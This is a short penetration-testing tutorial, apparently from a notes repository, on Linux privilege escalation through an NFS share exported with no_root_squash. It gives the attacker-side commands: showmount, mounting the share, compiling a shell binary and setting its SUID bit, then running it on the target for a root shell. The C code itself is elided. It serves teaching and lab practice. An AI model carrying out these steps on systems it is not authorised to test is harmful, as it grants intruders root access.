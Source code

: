 # NFS

**From the target machine** (remote shell)

The _NFS_ (Network File Sharing) configuration is found in the `/etc/exports`file. The important element for privilege escalation is present with the `no_root_squash` value. With this value, we are able to create a `SUID` executable binary on the target machine via the _NFS_ connection, and execute it to gain a root shell.

```bash
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
...
```

**We can use the `showmount` command to show the mountable shares on the target machine** (from our attacker machine)

```bash
$ showmount -e <target_ip_add>
Export list for <target_ip_add>:
/tmp                      *
/home/backup              *

$ nmap --script=... <target_ip_addr>
```

**To be ran as root on the attacker machine** (mount the file system for the target machine)

1. Create temporary directory
2. Mount the shares on the target machine (the mount point should be one with the `no_root_squash` option set)
3. Create a _**C**_ program to gain root shell
4. Compile the _**C**_ code to binary
5. Set the SUID bit on the output binary

```bash
root@attacker# mkdir /tmp/tmp_mnt_folder
root@attacker# mount -o rw <target_ip_addr>:<mount_point> /tmp/tmp_mnt_folder
root@attacker# nano shell.c
...
...

root@attacker# gcc shell.c -o shell
root@attacker# chmod +s shell
```

**On the target machine**

```bash
$ ./shell

root@target# id
...
```
